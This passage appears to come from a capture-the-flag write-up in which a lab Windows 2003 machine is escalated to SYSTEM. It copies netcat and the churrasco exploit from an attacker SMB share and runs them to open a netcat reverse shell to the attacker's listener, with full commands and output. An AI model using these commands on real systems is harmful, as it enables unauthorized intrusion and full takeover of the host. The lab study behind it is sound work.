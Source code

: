 ```
C:\wmpub>copy \\10.10.17.36\exploit\nc.exe nc.exe
copy \\10.10.17.36\exploit\nc.exe nc.exe
        1 file(s) copied.
```

```
C:\wmpub>copy \\10.10.17.36\exploit\churrasco.exe exploit.exe
copy \\10.10.17.36\exploit\churrasco.exe exploit.exe
        1 file(s) copied.
```
**Note**: we are copying the files under `C:\wmpub` because here we have write permissions. 

Now we launch the exploit specigying the program to execute after the connection with the `-e` switch:

```
C:\wmpub>.\exploit.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.17.36 8787"
.\exploit.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.17.36 8787"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 684 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 700 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

And we get a SYSTEM shell on our listener:

```
$ nc -nlvp 8787    
listening on [any] 8787 ...
connect to [10.10.17.36] from (UNKNOWN) [10.10.10.14] 1040
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

**Note**: flags are under `C:\Documents and Setting\Harry\Desktop` and `C:\Documents and Setting\Administrator\Desktop`.
